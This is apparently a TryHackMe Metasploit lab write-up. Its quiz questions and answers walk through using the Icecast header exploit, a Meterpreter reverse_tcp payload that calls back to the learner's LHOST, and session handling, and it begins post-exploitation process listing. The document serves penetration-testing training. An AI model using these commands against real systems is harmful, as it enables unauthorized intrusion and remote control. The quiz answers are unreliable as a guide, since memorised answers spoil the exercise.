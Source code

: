 > exploit/windows/http/icecast_header

While that use command with the unique string can be incredibly useful that's not quite the exploit we want here. Let's now run the command `search multi/handler`.
Go ahead and run the command `use NUMBER_NEXT_TO  exploit/multi/handler` wherein the number will be what appears in that far left column (typically this will be 4 or 5). In this way, we can use our search results without typing out the full name/path of the module we want to use.
___
What is the name of the column on the far left side of the console that shows up next to 'Name'?
> #

Now type the command `use NUMBER_FROM_PREVIOUS_QUESTION`. This is the short way to use modules returned by search results.
> No Answer Needed

Next, let's set the payload using this command `set PAYLOAD windows/meterpreter/reverse_tcp`. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command `set LHOST YOUR_IP_ON_TRYHACKME`. You might have to check your IP using the command `ip addr`, it will likely be your ***tun0*** interface.
> No Answer Needed

Let's go ahead and return to our previous exploit, run the command `use icecast` to select it again.
> No Answer Needed

One last step before we can run our exploit. Run the command `set RHOSTS MACHINE_IP` to tell Metasploit which target to attack. 
> No Answer Needed

Once you're set those variables correctly, run the exploit now via either the command `exploit` or the command `run -j` to run this as a job.
> No Answer Needed

Once we've started this, we can check all of the jobs running on the system by running the command `jobs`
> No Answer Needed

After we've established our connection in the next task, we can list all of our sessions using the command `sessions`. Similarly, we can interact with a target session using the command `sessions -i SESSION_NUMBER`
> No Answer Needed


## Task 6: We're in, now what?
Now that we've got a shell into our victim machine, let's take a look at several post-exploitation modules actions we can leverage! 
Most of the questions in the following section can be answered by using the Meterpreter help menu which can be accessed through the 'help' command. This menu dynamically expands as we load more modules.
___
First things first, our initial shell/process typically isn't very stable. Let's go ahead and attempt to move to a different process. First, let's list the processes using the command `ps`. What's the name of the spool service?
> spoolsv.exe
